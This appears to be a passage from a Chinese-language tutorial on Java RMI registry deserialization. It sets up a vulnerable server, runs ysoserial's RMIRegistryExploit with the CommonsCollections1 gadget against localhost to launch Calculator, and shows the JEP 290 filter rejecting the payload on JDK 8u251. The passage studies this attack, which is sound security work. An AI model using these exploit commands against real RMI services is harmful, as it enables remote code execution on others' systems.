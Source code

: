 ```java
public class rmiServer {

    public static void main(String[] args) throws Exception {
        ownMessage obj = new ownMessageImpl();
        ownMessage om = (ownMessage) UnicastRemoteObject.exportObject(obj, 0);
        Registry reg = LocateRegistry.createRegistry(11111);
        reg.bind("sendMessage", om);

    }
}
```

其次引入gadget需要的环境:

```xml
    <dependencies>
        <dependency>
            <groupId>commons-collections</groupId>
            <artifactId>commons-collections</artifactId>
            <version>3.1</version>
        </dependency>
    </dependencies>
```

切到ysoserial的jar包目录下使用`RMIRegistryExploit`进行攻击:

```shell
java -cp ./ysoserial-master-4df2ee2bb5-1.jar ysoserial.exploit.RMIRegistryExploit 127.0.0.1 11111 CommonsCollections1 "/System/Applications/Calculator.app/Contents/MacOS/Calculator"
```

调用`Registry.bind()`触发`Registry`反序列化

```java
  //ysoserial.exploit.RMIRegistryExploit#exploit
  ObjectPayload payloadObj = payloadClass.newInstance();
  Object payload = payloadObj.getObject(command);
  String name = "pwned" + System.nanoTime();
  Remote remote = Gadgets.createMemoitizedProxy(Gadgets.createMap(name, payload), Remote.class);
  registry.bind(name, remote);
```

顺利执行，把jdk版本切换到1.8u251，重新启动rmiServer并重复上面操作，结果报错:

```text

java.rmi.ServerException: RemoteException occurred in server thread; nested exception is:
	java.rmi.UnmarshalException: error unmarshalling arguments; nested exception is:
	java.io.InvalidClassException: filter status: REJECTED
	at sun.rmi.server.UnicastServerRef.dispatch(UnicastServerRef.java:389)
	at sun.rmi.transport.Transport$1.run(Transport.java:200)
	at sun.rmi.transport.Transport$1.run(Transport.java:197)
	at java.security.AccessController.doPrivileged(Native Method)
	at sun.rmi.transport.Transport.serviceCall(Transport.java:196)
	at sun.rmi.transport.tcp.TCPTransport.handleMessages(TCPTransport.java:573)
	at sun.rmi.transport.tcp.TCPTransport$ConnectionHandler.run0(TCPTransport.java:834)
	at sun.rmi.transport.tcp.TCPTransport$ConnectionHandler.lambda$run$0(TCPTransport.java:688)
	at java.security.AccessController.doPrivileged(Native Method)
	at sun.rmi.transport.tcp.TCPTransport$ConnectionHandler.run(TCPTransport.java:687)
	at java.util.concurrent.ThreadPoolExecutor.runWorker(ThreadPoolExecutor.java:1149)
	at java.util.concurrent.ThreadPoolExecutor$Worker.run(ThreadPoolExecutor.java:624)
	at java.lang.Thread.run(Thread.java:748)
	at sun.rmi.transport.StreamRemoteCall.exceptionReceivedFromServer(StreamRemoteCall.java:303)
	at sun.rmi.transport.StreamRemoteCall.executeCall(StreamRemoteCall.java:279)
	at sun.rmi.server.UnicastRef.invoke(UnicastRef.java:379)
	at sun.rmi.registry.RegistryImpl_Stub.bind(RegistryImpl_Stub.java:73)
	at ysoserial.exploit.RMIRegistryExploit$1.call(RMIRegistryExploit.java:77)
	at ysoserial.exploit.RMIRegistryExploit$1.call(RMIRegistryExploit.java:71)
```